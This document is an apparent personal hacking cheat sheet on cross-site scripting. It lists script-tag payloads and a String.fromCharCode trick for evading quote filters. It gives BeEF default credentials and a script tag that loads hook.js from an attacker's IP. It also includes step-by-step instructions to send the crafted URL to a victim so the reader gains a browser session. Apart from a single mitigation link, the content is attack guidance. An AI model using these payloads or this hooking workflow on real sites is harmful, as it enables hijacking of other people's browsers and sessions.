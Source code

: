 ### Reflected XSS
* Try to insert some javascript in input fields
* Copy URL and send it to the victim

### Stored XSS
* Javascript gets copied to the site or DB

### XSS
* Try to insert some javascript code:
  ```html
  <script>alert('<code>');</script>
  ```
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* To avoid using **'** and **"**, use the **String.fromCharCode()** function
  ```html
  <script>alert(String.fromCharCode(<charASCII>,<charASCII>,...));</script>
  ```
* Use BEEF (beef:beef)
  * Use the following javascript code
    ```html
    <script src="<IP>:3000/hook.js"></script>
    ```
  * Send URL with javascript code to the victim
  * When victim opens url, youll get a session in BEEF
  
  ### [Mitigation](https://github.com/KevinSantos/Hacking/blob/master/Mitigation/xssMitigation.php)
